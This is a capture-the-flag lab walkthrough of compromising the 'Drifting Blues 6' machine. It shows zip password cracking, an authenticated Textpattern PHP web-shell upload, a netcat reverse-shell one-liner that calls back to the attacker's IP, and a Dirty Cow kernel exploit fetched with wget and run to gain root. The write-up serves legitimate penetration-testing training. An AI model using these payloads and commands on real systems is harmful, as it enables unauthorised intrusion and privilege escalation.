 ```yaml
---
layout: default
title: Drifting Blues 6
parent: Proving Grounds Play
nav_order: 10
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.219
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 10:28 EST
Nmap scan report for 192.168.160.219
Host is up (0.11s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
|_http-title: driftingblues
| http-robots.txt: 1 disallowed entry
|_/textpattern/textpattern
|_http-server-header: Apache/2.2.22 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.33 seconds

```

# Enumeration

---

## HTTP | 80

![index](../../../assets/images/ctfs/proving_grounds/driftingblues6/index.png)

![bottom](../../../assets/images/ctfs/proving_grounds/driftingblues6/bottom.png)

![robots](../../../assets/images/ctfs/proving_grounds/driftingblues6/robots.png)

![textpattern](../../../assets/images/ctfs/proving_grounds/driftingblues6/textpattern.png)

## WFUZZ/Gobuster

Uncovers _/spammer.zip_

Download and unzip looking for password for _creds.txt_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ unzip spammer.zip
Archive:  spammer.zip
[spammer.zip] creds.txt password:

```

Crack with John

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ zip2john spammer.zip > spam.hash
ver 2.0 spammer.zip/creds.txt PKZIP Encr: cmplen=27, decmplen=15, crc=B003611D ts=ADCB cs=b003 type=0

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt spam.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
myspace4         (spammer.zip/creds.txt)
1g 0:00:00:00 DONE (2023-11-10 10:39) 16.66g/s 307200p/s 307200c/s 307200C/s havana..tanika
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```

Get creds from _spammer.zip_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ unzip spammer.zip
Archive:  spammer.zip
[spammer.zip] creds.txt password:
 extracting: creds.txt

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ ls
creds.txt  spam.hash  spammer.zip

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ cat creds.txt
mayer:lionheart

```

We now have some credentials to use somewhere...mayer:lionheart
{: .warn }

We are able to authenticate to _/textpattern/textpattern_

![logon](../../../assets/images/ctfs/proving_grounds/driftingblues6/logon.png)

# Exploitation

---

We have the ability to upload files in our authenticated section.

Reviewing _searchsploit_ for exploits on _Textpatter 4.8_ we have the following options:

```bash
# Exploit Title : TextPattern CMS 4.8.7 - Remote Command Execution (Authenticated)
# Date : 2021/09/06
# Exploit Author : Mert Da<C5><9F> merterpreter@gmail.com
# Software Link : https://textpattern.com/file_download/113/textpattern-4.8.7.zip
# Software web : https://textpattern.com/
# Tested on: Server : Xampp

First of all we should use file upload section to upload our shell.
Our shell contains this malicious code: <?PHP system($_GET['cmd']);?>

1) Go to content section .
2) Click Files and upload malicious php file.
3) go to yourserver/textpattern/files/yourphp.php?cmd=yourcode;

After upload our file , our request and respons is like below :

```

Create PHP CMD shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ vim cmd.php

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ cat cmd.php
<?php

system($_GET['cmd'])

?>

```

Upload to the target.

![upload](../../../assets/images/ctfs/proving_grounds/driftingblues6/upload.png)

Run a test command and verify RCE.

![cmd](../../../assets/images/ctfs/proving_grounds/driftingblues6/cmd.png)

Use _revshellgen_ to generate a bash one-liner on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

# Execute the following URL

URL: http://192.168.160.219/textpattern/files/cmd.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

# Get a reverse shell

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.160.219] 33206
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

After chekcing for common privesc exploits, the prove to be vulnerable to Dirty Cow.

## Check OS Version

```bash
www-data@driftingblues:/etc$ uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux

```

3.2.0-4 is susceptible to the Dirty Cow kernel exploit.

[rverton cowroot.c github raw code](https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c)

```bash
www-data@driftingblues:/tmp$ wget http://192.168.45.217:8000/cowroot.c
--2023-11-10 13:30:30--  http://192.168.45.217:8000/cowroot.c
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4688 (4.6K) [text/x-csrc]
Saving to: `cowroot.c'

100%[==============================================================>] 4,688       --.-K/s   in 0s

2023-11-10 13:30:30 (9.28 MB/s) - `cowroot.c' saved [4688/4688]

# Compile the exploit locally on target
www-data@driftingblues:/tmp$ gcc cowroot.c -o cowroot -pthread

# Run exploit
www-data@driftingblues:/tmp$ ./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 51096
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@driftingblues:/tmp# whoami
root
```

We have a root shell as a result of the Dirty Cow kernel exploit.
